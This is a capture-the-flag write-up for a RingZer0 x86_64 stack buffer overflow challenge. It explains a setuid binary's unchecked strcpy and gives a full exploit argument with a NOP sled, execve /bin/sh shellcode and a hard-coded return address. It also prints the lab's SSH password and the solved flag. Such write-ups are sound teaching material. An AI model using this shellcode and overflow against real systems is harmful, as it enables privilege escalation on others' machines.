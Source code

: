 ## Level1 Pwnage Linux x86_64
**Resource:** https://ringzer0team.com/challenges/165

## Solution
Let's start by logging in the server by typing (_$ is my terminal's prompt_):
```
$ ssh x64_user@challenges.ringzer0team.com -p10165  
```
and then type the password in: rztpwnx64
### How we can get flag content?
Here's the files in Challenges folder.
```
x64_user@rzt-x64-pwn:/Challenges$ ls -la
total 44
drwxr-xr-x  3 root   root     4096 Nov 10 20:02 .
drwxr-xr-x 22 root   root     4096 Feb 26 03:21 ..
drwxr-xr-x  2 root   root     4096 Nov 10 20:02 Flags
-r-sr-x---  1 chall1 x64_user 6958 Oct 28 06:09 level1
-r-sr-x---  1 chall2 x64_user 7344 Oct 28 06:09 level2
-r-sr-x---  1 chall3 x64_user 6958 Oct 28 06:09 level3
-r-sr-x---  1 chall4 x64_user 7344 Oct 28 06:09 level4

```
And the files in Flags folder.
```
x64_user@rzt-x64-pwn:/Challenges$ ls -la Flags/
total 24
drwxr-xr-x 2 root   root   4096 Nov 10 20:02 .
drwxr-xr-x 3 root   root   4096 Nov 10 20:02 ..
-r-------- 1 chall1 chall1   37 Nov  9 18:31 level1.flag
-r-------- 1 chall2 chall2   37 Nov  9 18:31 level2.flag
-r-------- 1 chall3 chall3   37 Nov  9 18:31 level3.flag
-r-------- 1 chall4 chall4   37 Nov  9 18:31 level4.flag
```
It's important to understand the file permissions of both level1 and level1.flag files.

> Because in level1 exec file, the set-user-id bit is set(s letter appears in 'r-s') which means that when executing level1 the effective user id (which the kernel performs its access tests based on)is set to the owner of the file.

>So we (x64_user) will gain privileges as chall1 when level1 is executed =)) we can read the flag level1.flag

### Examine executable file
```
x64_user@rzt-x64-pwn:/Challenges$ ./level1
x64_user@rzt-x64-pwn:/Challenges$ ./level1 ok
Your buffer is ok
```

So it's clear that we have to exploit buffer overflow to inject shellcode to execute one of bash family's programs.Of course if you're familiar with assembly language you can cause it to dirrectly execute commands like 'cat ./Flags/level1.flag'.I only guess so and I also have never try this.  awkward!! :smile:


Use 'objdump -d file_name'.
```
Disassembly of section main
000000000040054c <main>:
  40054c:	55                   	push   %rbp
  40054d:	48 89 e5             	mov    %rsp,%rbp
  400550:	48 81 ec 10 04 00 00 	sub    $0x410,%rsp
  400557:	89 bd fc fb ff ff    	mov    %edi,-0x404(%rbp)
  40055d:	48 89 b5 f0 fb ff ff 	mov    %rsi,-0x410(%rbp)
  400564:	83 bd fc fb ff ff 01 	cmpl   $0x1,-0x404(%rbp)
  40056b:	7e 39                	jle    4005a6 <main+0x5a>
  40056d:	48 8b 85 f0 fb ff ff 	mov    -0x410(%rbp),%rax
  400574:	48 83 c0 08          	add    $0x8,%rax
  400578:	48 8b 10             	mov    (%rax),%rdx
  40057b:	48 8d 85 00 fc ff ff 	lea    -0x400(%rbp),%rax
  400582:	48 89 d6             	mov    %rdx,%rsi
  400585:	48 89 c7             	mov    %rax,%rdi
  400588:	e8 83 fe ff ff       	callq  400410 <strcpy@plt>
  40058d:	48 8d 85 00 fc ff ff 	lea    -0x400(%rbp),%rax
  400594:	48 89 c6             	mov    %rax,%rsi
  400597:	bf 5c 06 40 00       	mov    $0x40065c,%edi
  40059c:	b8 00 00 00 00       	mov    $0x0,%eax
  4005a1:	e8 7a fe ff ff       	callq  400420 <printf@plt>
  4005a6:	b8 00 00 00 00       	mov    $0x0,%eax
  4005ab:	c9                   	leaveq
  4005ac:	c3                   	retq   
  4005ad:	90                   	nop
  4005ae:	90                   	nop
  4005af:	90                   	nop

```

It's nice. Because:
- There's no __buffer corruption detection__ (Use canary value) [__Wiki about stack canary__](https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries)
- __main__ is the only function and it only calls __strcpy__ and __printf__
- __stack randomization__ is turned off (check by gdb with 'set disable-randomization off' and see the values of %rbp serveral times at fixed checkpoints) [__Wiki about this__](https://en.wikipedia.org/wiki/Address_space_layout_randomization)

From above we could determine that:

Suppose: char *strcpy(char *dest, const char *src);


=)) Stack illustration:

![](./stack.png)

So to overwrite `return value` we have to provide exactly (0x400 + 8 bytes (%rbp) + 8 bytes(return value) = ) = 1040 (Bytes) characters

 Note: 8 bytes in %rbp and return value because it compiled in mode 64 bit

### Build argument
so what should we put in return value? =)) We should put in it another address where our shellcode is at due to the fact that after main function's reaching return or exit it will jump in that address and execute instructions from that point.

Partly due to stack randomization disabled so:
* return address = address of src
* put shellcode in src

Finally: the argument has form: "[nop_sled] + [shellcode] + [something] + [address of src] "

#### Get address of src or -0x410(%rbp)

> Note: Different arguments and environment list(means how the program is executed ? in terminal or in gdb) could cause `stack address changing` although `stack randomization disabled`

```
---- Open gdb and type in commands
$ b* main + 4
$ run $(python -c "print 'A'* 1032 + 'B'*8")
$ print $rbp -0x400
---- I got $1 = (void *) 0x7f ff ff ff e2 40
```

#### Get Shellcode
I has googled and found this: [http://shell-storm.org/shellcode/]
I chose `Linux/x86-64 - Execute /bin/sh - 27 bytes by Dad`


#### Complete argument

$(python -c "print '\x90'* 400 + '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 'A'*(1032 - 27 - 400) + '\x40\xe2\xff\xff\xff\x7f\x00\x00'")

#### Test

When I tested on gdb it only worked partially as the following image:

I'm stuck on why i hasn't gain previlege ??. If you has any answers please tell me @@.
![](./why.png)

And test from terminal, segmentation fault occured (see note above to see why)

=)) Plus (Minus) 400 several times to return address will work.

### Flag
`FLAG-7I4rMu7UNA8663700Dgi3a19c3892u6k`
